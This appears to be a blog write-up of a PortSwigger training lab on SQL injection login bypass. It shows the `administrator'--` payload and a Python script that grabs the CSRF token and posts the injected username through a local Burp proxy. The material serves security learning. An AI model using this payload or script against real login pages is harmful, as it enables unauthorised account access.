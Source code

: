 ```yaml
---
layout: post
title: "SQLi vulnerability allowing login bypass"
date: 2023-05-28
categories: [CTF, PortSwigger]
---
```


## Description

This [lab](https://portswigger.net/web-security/sql-injection/lab-login-bypass){:target="_blank"} contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

## Steps

Trying to login by using a single quote (`'`) as the username, returns an internal server error, demonstrating that the app is vulnerable.

<img src="https://jawad.ca/images/sqli-lab02/sqli-lab02-05.png">
 
By intercepting the Login POST request and appending `'--` to the administrator username, we can bypass the remaining part of the query that checks the password.

<img src="https://jawad.ca/images/sqli-lab02/sqli-lab02-04.png">


And we're in!


<img src="https://jawad.ca/images/sqli-lab02/sqli-lab02-03.png">


Let's script the solution in Python. 

It's a `POST` request that expects three parameters: `csrf`, `username`, and `password`.

```python
import requests  
import sys  
import urllib3  
from bs4 import BeautifulSoup  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
def get_csrf_token(session, url):  
	response = session.get(url, verify=False, proxies=proxies)  
	soup = BeautifulSoup(response.text, 'html.parser')  
	# getting csrf from html input element  
	return soup.find("input")['value']  
  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		username = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <username>, e.g www.example.com "1=1"' % sys.argv[0]) 
		sys.exit(-1)  
  
session = requests.Session()  
  
#password is not important knowing that Auth is bypassed from an SQLi in ther username parameter  
data = {"csrf": get_csrf_token(session, url), "username": username, "password": "randomstring"}  
response = session.post(url, data=data, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in response.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
	
```


Testing the Python script:

```powershell
python3 sqli-lab02.py "https://0ab000eb0409a6428036c6eb00f500b7.web-security-academy.net/login" "administrator'--"
```


It worked! We can also validate it through Burp.

 
<img src="https://jawad.ca/images/sqli-lab02/sqli-lab02-06.png">




